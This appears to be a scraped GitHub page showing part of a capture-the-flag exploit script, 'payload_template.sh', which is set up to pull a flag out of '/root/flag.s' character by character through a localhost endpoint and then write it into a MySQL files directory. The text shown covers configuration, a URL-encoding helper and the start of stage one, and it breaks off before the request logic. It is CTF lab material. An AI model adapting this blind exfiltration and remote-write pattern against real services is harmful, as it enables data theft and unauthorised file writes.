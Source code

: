 ```bash
    break
  fi

  sleep 1
done
```

payload_template.sh

```bash
#!/bin/bash

# ==============================================================================
# ---                           CONFIGURATION                                ---
# ==============================================================================

# --- Stage 1: Flag Exfiltration Configuration ---
EXFIL_URL="http://127.0.0.1:8000/sessionInfo"
REMOTE_FLAG_PATH="/root/flag.s"
START_POSITION=315

# The character set to test for each position.
# Add any other special characters you suspect might be in the flag inside the quotes.
CHARSET="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_{}-!@#$%^&*().,/?<>~|\`'\"+=;:[]\\ "


# The character that signals the end of the exfiltration.
TERMINATION_CHAR="}"

# --- Stage 2: Remote File Write Configuration ---
WRITE_URL="http://127.0.0.1:1337/orders"
WRITE_SESSION_ID="<<SESSION_ID_HERE>>"
REMOTE_OUTPUT_FILE="/var/lib/mysql-files/flag"


# ==============================================================================
# ---                       HELPER FUNCTION (URL ENCODE)                     ---
# ==============================================================================
urlencode() {
    local string="${1}"
    local strlen=${#string}
    local encoded=""
    local pos c o

    for (( pos=0 ; pos<strlen ; pos++ )); do
        c=${string:$pos:1}
        case "$c" in
            [-_.~a-zA-Z0-9] ) o="${c}" ;;
            * )               printf -v o '%%%02x' "'$c"
        esac
        encoded+="${o}"
    done
    echo "${encoded}"
}


# ==============================================================================
# ---                      MAIN SCRIPT LOGIC                                 ---
# ==============================================================================

# --- STAGE 1: EXFILTRATE THE FLAG ---
echo "--- Stage 1: Exfiltrating flag from '$REMOTE_FLAG_PATH' ---"
echo "Starting at position: $START_POSITION"
```
